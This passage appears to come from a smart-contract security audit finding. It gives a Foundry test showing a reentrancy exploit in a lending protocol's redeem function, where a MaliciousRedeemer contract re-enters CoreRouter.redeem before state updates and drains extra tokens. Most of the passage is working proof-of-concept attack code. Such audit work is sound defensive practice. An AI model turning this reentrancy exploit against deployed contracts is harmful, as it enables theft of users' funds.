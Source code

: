 ```solidity
            callCounter++;
            // Re-execute redeem before state updates
            CoreRouter(targetRouter).redeem(withdrawAmount, payable(targetLToken));
        }
    }
}
```

Add this test to TestRedeeming.t.sol:

```solidity
//Add to existing imports
import {Test, console} from "forge-std/Test.sol";
import {MaliciousRedeemer} from "./mocks/MaliciousRedeemer.sol";

function test_state_manipulation_in_redeem_function() public {
    vm.startPrank(deployer);
   
    // Setup protocol with substantial liquidity
    uint256 protocolLiquidity = 1000e18;
    (address underlyingToken, address lTokenContract) = _supply(protocolLiquidity);
   
    // Deploy exploit contract
    MaliciousRedeemer exploiter = new MaliciousRedeemer(payable(address(coreRouter)));
   
    // Provide minimal attack capital
    uint256 exploitCapital = 10e18;
    ERC20Mock(underlyingToken).mint(address(exploiter), exploitCapital);
    vm.stopPrank();
   
    // Execute attack sequence
    vm.startPrank(address(exploiter));
    IERC20(underlyingToken).approve(address(coreRouter), exploitCapital);
    coreRouter.supply(exploitCapital, underlyingToken);
   
    // Capture pre-exploit state
    uint256 preExploitBalance = IERC20(underlyingToken).balanceOf(address(exploiter));
    uint256 legitimatePosition = lendStorage.totalInvestment(address(exploiter), lTokenContract);
   
    console.log("Initial investment:", legitimatePosition);
   
    // Execute state manipulation exploit
    exploiter.executeExploit(lTokenContract, legitimatePosition, underlyingToken);
   
    // Verify exploitation results
    uint256 postExploitBalance = IERC20(underlyingToken).balanceOf(address(exploiter));
    assertGt(postExploitBalance, preExploitBalance, "State manipulation exploit failed");
   
    console.log("Initial balance:", preExploitBalance);
    console.log("Final balance:", postExploitBalance);
    console.log("Extra tokens stolen:", postExploitBalance - preExploitBalance);
   
    vm.stopPrank();
}
```
